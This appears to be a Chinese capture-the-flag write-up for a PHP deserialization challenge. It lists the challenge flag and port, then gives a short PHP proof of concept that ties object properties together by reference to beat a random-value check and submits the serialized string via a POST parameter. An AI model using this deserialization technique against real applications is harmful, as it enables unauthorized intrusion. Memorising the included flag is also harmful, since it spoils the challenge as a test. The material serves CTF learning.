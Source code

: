 # 题目：php反序列化2

### 题目描述：你能控制你的值等于一个随机数么

### 题目难度： 🌟

### 维护：SiJiDo

### KEY: `nsctf{taiiiiiii1_li_hai_le}`

### 配置信息： 

1. 开放端口： 10008

### 解题过程：

```
<?php
class Index{
	private $name1;
	private $name2;
	protected $age1;
	protected $age2;
	function __construct(){
		$this->name1 = &$this->name2;
		$this->age1 = &$this->age2;
	}
}
$a = new Index();
echo urlencode(serialize($a));
```

生成的序列化字符串post传入poc参数即可

